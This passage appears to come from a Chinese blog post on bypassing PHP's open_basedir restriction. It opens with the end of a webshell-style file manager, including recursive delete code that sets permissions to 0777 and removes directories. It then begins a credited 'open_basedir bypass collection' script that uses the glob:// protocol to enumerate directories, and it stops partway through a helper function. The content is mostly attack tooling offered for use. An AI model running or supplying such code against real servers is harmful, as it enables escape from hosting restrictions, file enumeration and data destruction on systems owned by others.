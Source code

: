 ```php
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/47a527fa01574fbbac6b999ad9280d34.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
**还有一个是网上的脚本**
直接绕过open_basedir爆目录
只是页面更简化，操作起来更容易了。
原理：glob://协议来读取目录
```php
<?php
/*
PHP open_basedir bypass collection
Works with >= PHP5
By /fd, @filedescriptor(https://twitter.com/filedescriptor)
 */
 
// Assistant functions
function getRelativePath($from, $to) {
	// some compatibility fixes for Windows paths
	$from = rtrim($from, '\/') . '/';
	$from = str_replace('\\', '/', $from);
	$to = str_replace('\\', '/', $to);
 
	$from = explode('/', $from);
	$to = explode('/', $to);
	$relPath = $to;
 
	foreach ($from as $depth => $dir) {
		// find first non-matching dir
		if ($dir === $to[$depth]) {
			// ignore this directory
			array_shift($relPath);
		} else {
			// get number of remaining dirs to $from
			$remaining = count($from) - $depth;
			if ($remaining > 1) {
				// add traversals up to first matching dir
				$padLength = (count($relPath) + $remaining - 1) * -1;
				$relPath = array_pad($relPath, $padLength, '..');
				break;
			} else {
```